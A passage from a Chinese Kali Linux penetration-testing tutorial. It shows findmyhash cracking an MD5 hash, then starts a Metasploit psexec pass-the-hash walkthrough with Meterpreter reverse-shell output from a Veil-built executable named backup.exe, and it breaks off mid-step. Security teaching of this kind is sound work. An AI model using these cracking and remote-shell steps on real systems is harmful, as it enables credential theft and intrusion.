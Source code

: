 以上语法中，各个选项含义如下所示。

*   Encryption：指定使用的哈希加密类型。
*   -h：指定要破解的 LM 哈希值。

【实例 8-2】使用 findmyhash 命令攻击 LM Hashes 密码。执行命令如下所示：

```
root@kali:~# findmyhash MD5 -h 5f4dcc3b5aa765d61d8327deb882cf99
Cracking hash: 5f4dcc3b5aa765d61d8327deb882cf99
Analyzing with md5hood (http://md5hood.com)…
… hash not found in md5hood
Analyzing with stringfunction (http://www.stringfunction.com)…
… hash not found in stringfunction
Analyzing with 99k.org (http://xanadrel.99k.org)…
… hash not found in 99k.org
Analyzing with sans (http://isc.sans.edu)…
… hash not found in sans
Analyzing with bokehman (http://bokehman.com)…
… hash not found in bokehman
Analyzing with goog.li (http://goog.li)…
… hash not found in goog.li
Analyzing with schwett (http://schwett.com)…
… hash not found in schwett
Analyzing with netmd5crack (http://www.netmd5crack.com)…
… hash not found in netmd5crack
Analyzing with md5-cracker (http://www.md5-cracker.tk)…
… hash not found in md5-cracker
Analyzing with benramsey (http://tools.benramsey.com)…
… hash not found in benramsey
Analyzing with gromweb (http://md5.gromweb.com)…
***** HASH CRACKED!! *****
The original string is: password
The following hashes were cracked:
----------------------------------
5f4dcc3b5aa765d61d8327deb882cf99 -> password 
```

以上输出的信息是攻击 LM Hashes 密码的过程。经过一番的攻击，最后获取到哈希值 5f4dcc3b5aa765d61d8327deb882cf99 的原始密码是 password。

如果觉得破解 LM Hashes 太慢的话，可以使用 Metasploit 中的 psexec 模块绕过 Hash 值。下面将介绍使用 psexec 模块绕过 Hash 值的方法。

（1）通过在目标主机（Windows 7）上运行 Veil 创建的可执行文件 backup.exe，成功获取一个活跃的远程会话，如下所示：

```
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.106:49160) at 2014-07-22 15:29:55 +0800 
```

从以上信息中，可以看到成功打开了会话 1。

（2）查看用户权限信息。执行命令如下所示：
